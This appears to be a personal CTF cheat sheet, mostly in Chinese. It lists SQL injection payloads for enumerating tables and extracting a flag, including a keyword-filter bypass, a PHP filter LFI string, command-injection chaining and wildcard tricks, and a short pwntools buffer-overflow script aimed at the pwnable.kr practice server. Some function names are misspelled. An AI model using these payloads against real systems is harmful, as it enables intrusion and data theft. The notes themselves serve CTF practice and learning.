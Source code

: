 # CTF note
## WEB

### SQL injection

select database()

group_concat(table_name) from information_schema.tables where table_schema=‘database()’
再看某個資料庫的table (單引號要提換成實際database name)

group_concat(column_name) from information_schema.columns where table_name='wargame2key'-- -

or (尾端單引號內容可換成hex 然後不需要單引號 , 不行的話試試看單引號不要拿掉)

group_concat(table_name)/*1*/frofromm/*1*/information_schema.tables/*1*/where/*1*/table_schema=0x74657374#

---

已知欄位數量 database()名稱

(`limit`參數為開始欄位id,顯示數量)

查看表個名:
(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='置換成db名稱' limit 0,1)

查看欄位名:
(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='置換成表格名稱' limit 1,1)

取得欄位內容:
(select flag from flag limit 1,1)

### LFI

> ?page=`php://filter/read=convert.base64-encode/resource=path`

### command injection

**串接指令** : `反引號` , `&&` , `|` , `;`

**讀取檔案** : `cat` , `head` , `tail` , `sort` , `more`

**檔名被過濾** : 萬用字元繞過 (ex:flag.txt --> `cat fla*`)

## PWN

### asm intel

參數存入rigister順序 `printf(rdi,rsi,rdx,rcx,r8,r9)`

[ref](http://abcdxyzk.github.io/blog/2012/11/23/assembly-args/)

### reverse

- objump -d -M intel filename

### pwnalbe

- 32bit frame

  - gcc -m32

- protect
  
  - gcc -fno-stack-protector file.c(關閉canary)

- gdb調用技巧

  - disas main

  - info func
 
  - x $ebp+8

- pwntools
 
  - OFFSET  

    - cyclib(50)
 
    - cyclib_find('aa') 

`pwntools 基本用法`
```python
from pwn import *
context(log_level = 'debug')
playload = 'A'*52 + p32(0xcafebabe)
r = remote('pwnable.kr',9000)
#r.recvuntil('overflow me :')
r.send(playload)
r.interactive()
```
